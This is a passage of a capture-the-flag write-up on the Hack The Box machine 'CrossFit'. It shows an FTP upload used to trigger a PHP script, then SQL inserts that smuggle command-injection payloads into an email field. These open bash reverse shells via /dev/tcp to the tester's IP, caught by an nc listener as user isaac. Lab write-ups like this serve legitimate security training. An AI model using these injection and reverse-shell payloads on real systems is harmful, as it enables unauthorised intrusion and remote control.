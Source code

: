 ```bash
$fs_iterator = new FilesystemIterator($msg_dir);

    foreach ($fs_iterator as $file_info)
    {
        if($file_info->isFile())
```

I looked back through the code in `send_updates.php` looking for clues for how to proceed.  I noticed that these loops look through everything in `$msgdir` and check to see if there was a file, and if so, it would run the rest of the code.  

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ lftp -u ftpadm 10.10.10.208 -e "set ssl:verify-certificate no" 
Password: 
lftp ftpadm@10.10.10.208:~> put ~/rev-php.php    
put: /home/zweilos/rev-php.php: Access failed: 553 Could not create file. (rev-php.php)
lftp ftpadm@10.10.10.208:/> cd messages/
lftp ftpadm@10.10.10.208:/messages> put ~/rev-php.php 
73 bytes transferred
```

 After some testing I found out that I needed to trigger the message by uploading a file into the `messages` folder after logging in with `ftpadm`.  It did not seem to matter what the file was. 

```text
MariaDB [crossfit]> INSERT INTO users (id,email) VALUES (8081,"-E $(bash -c 'bash -i >& /dev/tcp/10.10.14.176/8081 0>&1')");
Query OK, 1 row affected (0.001 sec)

MariaDB [crossfit]> select * from users;
+------+------------------------------------------------------------+
| id   | email                                                      |
+------+------------------------------------------------------------+
| 8081 | -E $(bash -c 'bash -i >& /dev/tcp/10.10.14.176/8081 0>&1') |
+------+------------------------------------------------------------+
1 row in set (0.000 sec)
```

I changed ports and tried inserting my reverse shell again, and this time got a steady connection. 

```sql
MariaDB [crossfit]> INSERT INTO users (email) VALUES ("test & bash -c 'bash -i >& /dev/tcp/10.10.14.176/10001 0>&1'");
Query OK, 1 row affected (0.001 sec)
```

I lost my connection again due to an "unplanned network outage", so had to try again.  I forgot about the `-E` flag when I came back to this and found another way to get my code to execute.  Chaining bash commands using `&` also worked.

### Enumeration as `isaac`

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ nc -lvnp 10001                                                                                   1 ⨯
listening on [any] 10001 ...
connect to [10.10.14.176] from (UNKNOWN) [10.10.10.208] 54756
bash: cannot set terminal process group (2913): Inappropriate ioctl for device
bash: no job control in this shell
isaac@crossfit:~$
```
